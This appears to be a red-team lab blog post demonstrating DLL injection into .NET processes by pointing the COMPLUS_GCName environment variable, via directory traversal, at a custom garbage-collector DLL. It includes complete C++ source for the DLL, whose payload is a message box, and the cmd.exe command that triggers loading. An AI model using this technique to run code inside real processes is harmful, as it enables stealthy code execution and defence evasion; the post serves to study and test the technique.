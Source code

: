 ```yaml
---
layout: post
title: "2024-06-18-injecting dll via custom .net garbage collector environment variable complus_gcname"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /injecting-dll-via-custom-.net-garbage-collector-environment-variable-complus_gcname/
---
```


# DLL Injection via a Custom .NET Garbage Collector

This is a quick lab to test a DLL injection technique discovered by [@am0nsec](https://twitter.com/am0nsec), which he describes in his blogpost [https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector](https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector) - go check it out!

The idea behind this technique is that a low privileged user can specify a custom Garbage Collector (GC), that a  .NET application should use. A custom GC can be specified by setting a command shell environment variable `COMPLUS_GCName`, that points to a malicious DLL which represents a custom Garbage Collector.

```
Normally, specifying a custom GC requires administartor privileges, however, since path to a custom GC in `COMPLUS_GCName` is not sanitized when a custom GC is loaded, directory traversal allows **any** unprivileged user to specify a custom GC to be loaded from an arbitrary location to which they can drop their DLL.
```

The Gargage Collector DLL needs to export `GC_VersionInfo` method for this technique to work - this is the method that will contain our payload, that will be executed once a .NET program starts and loads our custom GC DLL.

## Execution

Let's create a DLL that represents a custom Garbage Collector. It needs to export a function `GC_VersionInfo`, which in our case executes a simple message box:

```cpp
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

struct VersionInfo
{
    UINT32 MajorVersion;
    UINT32 MinorVersion;
    UINT32 BuildVersion;
    const char* Name;

};

extern "C" __declspec(dllexport) void GC_VersionInfo(VersionInfo * info)
{
    info->BuildVersion = 0;
    info->MinorVersion = 0;
    info->BuildVersion = 0;
    MessageBoxA(NULL, "Injection", "Injection", 0);
}
```

Once the DLL is compiled, we can set the `COMPLUS_GCName` environment variable in our cmd.exe shell and point it to the compiled DLL:

```
set COMPLUS_GCName=..\..\..\..\..\..\..\..\..\..\..\..\..\labs\GarbageCollector\GC\x64\Release\GC.dll & dotnet.exe -h
```

We can execute any .NET binary found on the system and it will load our GC.dll. In this lab, we do:

```
dotnet.exe -h
```

Below shows that our GC.dll got injected into the dotnet.exe:

![](<../../.gitbook/assets/image (571).png>)

## References

{% embed url="https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector" %}
@spotheplanet
